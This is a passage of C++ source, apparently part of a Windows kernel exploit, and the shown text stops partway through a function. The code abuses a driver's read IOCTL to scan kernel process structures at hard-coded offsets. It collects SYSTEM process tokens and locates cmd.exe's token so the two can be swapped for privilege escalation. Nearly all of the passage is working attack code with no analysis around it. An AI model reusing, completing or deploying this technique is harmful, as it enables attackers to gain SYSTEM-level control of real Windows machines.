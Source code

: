 ```cpp
        0x100c,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);

    for (int i = 0; i < proc_data.header_size.size(); i++) {

        INT64 start_address = proc_data.proc_address[i];
        READ_INPUT_BUFFER input_buff = { start_address, num_of_bytes };

        if (DeviceIoControl(
            hFile,
            READ_IOCTL,
            &input_buff,
            0x40,
            output_buff,
            0x100c,
            &bytes_ret,
            NULL))
        {
            //cout << "[>] DeviceIoControl succeeded!\n";
        }

        INT64 results_begin = ((INT64)output_buff + 0xc);

        INT64 imagename_address = results_begin +
            proc_data.header_size[i] + proc_data.page_entry_offset[i]
            + 0x450; //ImageFileName
        INT64 imagename_value = *(PINT64)imagename_address;

        INT64 proc_token_addr = results_begin +
            proc_data.header_size[i] + proc_data.page_entry_offset[i]
            + 0x360; //Token
        INT64 proc_token = *(PINT64)proc_token_addr;

        INT64 pid_addr = results_begin +
            proc_data.header_size[i] + proc_data.page_entry_offset[i]
            + 0x2e8; //UniqueProcessId
        INT64 pid_value = *(PINT64)pid_addr;

        int sys_result = count(SYSTEM_procs.begin(), SYSTEM_procs.end(),
            imagename_value);

        if (sys_result != 0) {

            system_token_count++;
            system_tokens.token_name.push_back(imagename_value);
            system_tokens.token_value.push_back(proc_token);
        }

        if (imagename_value == 0x6578652e646d63) {
            //cout << "[>] cmd.exe found!\n";
            cmd_token_address = (start_address + proc_data.header_size[i] +
                proc_data.page_entry_offset[i] + 0x360);
        }
    }

    if (system_tokens.token_name.size() != 0 and cmd_token_address != 0) {
        cout << "\n[>] cmd.exe and SYSTEM token information found!\n";
        cout << "[>] Let's swap tokens!\n";
    }
    else if (cmd_token_address == 0) {
        cout << "[!] No cmd.exe token address found, exiting...\n";
        exit(1);
```
